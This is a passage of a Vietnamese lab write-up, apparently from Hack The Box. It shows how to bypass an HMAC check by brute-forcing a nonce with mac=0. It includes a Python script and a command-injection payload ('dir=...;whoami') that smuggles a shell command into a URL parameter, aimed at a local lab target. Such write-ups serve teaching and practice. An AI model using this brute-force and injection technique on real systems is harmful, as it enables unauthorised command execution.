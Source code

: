 3. **Brute-force giá trị nonce hợp lệ**:
   Vì HMAC phụ thuộc vào `nonce`, kẻ tấn công cần tìm giá trị `nonce` tạo ra MAC hợp lệ.

#### **3. Brute-force giá trị nonce**

1. **Script tự động tìm nonce**:
   ```python
   import requests

   URL = "http://127.0.0.1:8000/dir.php"
   DIR = "/home/htb-stdnt/; whoami"
   MAC = 0
   MAX_NONCE = 20000

   def prepare_params(nonce):
       return {"dir": DIR, "nonce": nonce, "mac": MAC}

   def make_request(nonce):
       return requests.get(URL, params=prepare_params(nonce))

   # Main
   for n in range(MAX_NONCE):
       r = make_request(n)
       if "Error! Invalid MAC" not in r.text:
           print(f"Valid MAC found: {r.url}")
           break
   ```

2. **Chạy script**:
   - Script sẽ thử tất cả giá trị `nonce` từ 0 đến `MAX_NONCE` và dừng khi tìm thấy nonce tạo ra MAC hợp lệ.

---

### 4. **Kết quả**

- Với payload:
  ```
  dir=/home/htb-stdnt/;whoami
  ```
  Và nonce hợp lệ (ví dụ: `3082`), URL khai thác là:
  ```
  http://127.0.0.1:8000/dir.php?dir=/home/htb-stdnt/;whoami&nonce=3082&mac=0
  ```

- Truy cập URL này, lệnh `whoami` được thực thi, xác nhận lỗ hổng.

